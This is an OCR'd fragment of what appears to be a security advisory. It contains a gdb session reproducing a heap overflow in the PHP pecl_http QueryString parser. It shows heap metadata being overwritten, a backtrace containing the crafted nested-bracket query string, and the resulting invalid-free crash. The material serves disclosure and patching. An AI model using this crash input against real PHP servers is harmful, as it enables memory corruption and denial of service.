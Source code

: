 ```
    0x1091f40:	0x0000000000000020	0x0000000000000031 <-- heap meta-data (prev-size, size)
    0x1091f50:	0x0000070600000001	0x800000017c9c614a
gdb> ni 2
gdb> x/8gx 0x1091f20                    // heap after overflow
    0x1091f20:	0x000000006c72755c	0x0000000000000021
    0x1091f30:	0x00007ffff5addb48	0x0000000001092960
    0x1091f40:	0x0000000000004142	0x0000000000000000 <-- heap meta-data overwritten*
    0x1091f50:	0x0000070600000001	0x800000017c9c614a
    /*
     * (*) 0x4142 originates from bug73055.bin offset 0x59
     * The numeric string '16706' is converted into the integer
     * it is representing 0x4142 (see sanitize_dimension()).
     */
gdb> bt                                 // for the record
    #0  _zend_hash_index_add_or_update_i (flag=1, pData=0x7ffff425c6a0, h=16706, ht=0xf53dc0) at zend_hash.c:815
    #1  _zend_hash_index_update (ht=0xf53dc0, h=16706, pData=pData@entry=0x7ffff425c6a0) at zend_hash.c:838
    #2  0x00000000006b032b in merge_param (zdata=0x7fffffff9cf0, current_args=0x7fffffff9dd8, current_param=0x7fffffff9de0, params=<optimized out>) at php_http_params.c:511
    #3  push_param (params=<optimized out>, state=<optimized out>, opts=<optimized out>) at php_http_params.c:607
    #4  0x00000000006b2475 in php_http_params_parse (params=params@entry=0x7ffff42023f0, opts=opts@entry=0x7fffffff9e80) at php_http_params.c:755
    #5  0x00000000006b5479 in php_http_querystring_parse (ht=0x7ffff42023f0, str=str@entry=0x7ffff4282018 '[' <repeats 27 times>, "]]]]", '[' <repeats 38 times>, "&%C0[]E[=&2[&%C0[]E[16706[*[", len=<optimized out>) at php_http_querystring.c:224
    #6  0x00000000006b552c in php_http_querystring_update (qarray=qarray@entry=0x7fffffff9f80, params=params@entry=0x7ffff4213130, outstring=outstring@entry=0x0) at php_http_querystring.c:268
    #7  0x00000000006b6029 in php_http_querystring_set (flags=0, params=0x7ffff4213130, instance=0x7ffff4213100) at php_http_querystring.c:49
    #8  zim_HttpQueryString___construct (execute_data=<optimized out>, return_value=<optimized out>) at php_http_querystring.c:365
    #9  0x00000000007b0a93 in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at zend_vm_execute.h:970
    [...]
gdb> dis 1 2
gdb> c
    Fatal error: Uncaught http\Exception\BadQueryStringException: http\QueryString::__construct(): Max input nesting level of 64 exceeded in http_querystr.php:5
    Stack trace:
    #0 http_querystr.php(5): http\QueryString->__construct('[[[[[[[[[[[[[[[...')
    #1 {main}
    
    Next 
      thrown in http_querystr.php on line 5
    *** Error in `sapi/cli/php': free(): invalid pointer: 0x0000000001091f50 ***
    Program received signal SIGABRT, Aborted.
    0x00007ffff577804f in raise () from /usr/lib/libc.so.6
```

# Patch
